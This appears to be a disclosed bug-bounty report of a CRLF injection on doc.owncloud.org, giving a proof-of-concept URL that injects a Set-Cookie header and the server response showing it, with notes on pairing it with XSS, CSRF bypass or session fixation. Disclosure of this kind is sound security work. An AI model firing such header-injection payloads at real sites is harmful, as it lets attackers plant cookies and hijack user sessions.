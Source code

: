 # [doc.owncloud.org] CRLF Injection

## Report Details
- **Report ID**: 154275
- **URL**: https://hackerone.com/reports/154275
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-27T08:08:07.446Z
- **Disclosed**: 2016-11-02T13:38:30.583Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: owncloud

## Vulnerability Information
**PoC**:
`http://doc.owncloud.org/%23%0dSet-Cookie:crlf=injection;domain=.owncloud.org;`

**HTTP Response**:
```
HTTP/1.1 301 Moved Permanently\r\n
Date: Wed, 27 Jul 2016 07:58:47 GMT\r\n
Server: Apache\r\n
Location: https://doc.owncloud.org/#\r                      < injection \r
Set-Cookie:crlf=injection;domain=.owncloud.org;\r\n
```

**Result**:
Creating a cookie-param "crlf=injection" on *.owncloud.org

This vulnerability could be used in combination with others. For example, XSS via Cookie, bypass Double Submit Cookie csrf protection or session fixation. HTTP headers delimiter \r (%0d) is supported by any web browser other than FireFox.

HTTP Strict Transport Security can block the attack, if the user has already visited the site doc.owncloud.org.

## Attachments
No attachments

